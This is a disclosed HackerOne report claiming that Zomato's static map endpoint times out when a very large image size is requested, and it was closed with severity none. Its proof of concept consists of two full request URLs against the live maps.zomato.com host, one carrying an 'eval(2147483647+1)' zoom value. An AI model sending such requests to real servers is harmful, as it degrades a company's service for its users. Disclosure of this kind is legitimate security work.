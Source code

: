 # Zomato Map server going out of memory while resizing map image

## Report Details
- **Report ID**: 751904
- **URL**: https://hackerone.com/reports/751904
- **State**: Closed
- **Severity**: none
- **Submitted**: 2019-12-05T11:20:34.840Z
- **Disclosed**: 2019-12-05T12:00:35.394Z

## Reporter
- **Username**: mchinmoy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Go to

https://maps.zomato.com/php/staticmap?center=0,0&size=240x150&maptype=zomato&markers=180,180,pin_res32&sensor=false&scale=%&zoom=eval(2147483647+1)&language=en

a map will be displayed

Now increase the map size by 10x

https://maps.zomato.com/php/staticmap?center=0,0&size=2400x1500&maptype=zomato&markers=180,180,pin_res32&sensor=false&scale=%&zoom=eval(2147483647+1)&language=en

It will always timeout after waiting from 1-15 minutes

POC video is attached.

## Impact

Zomato Map servers can be bought down making map feature completely non functional and causing millions of dollars loss for Zomato.

## Attachments
- Zomato_Map_Server_Going_Out_Of_Memory.mp4
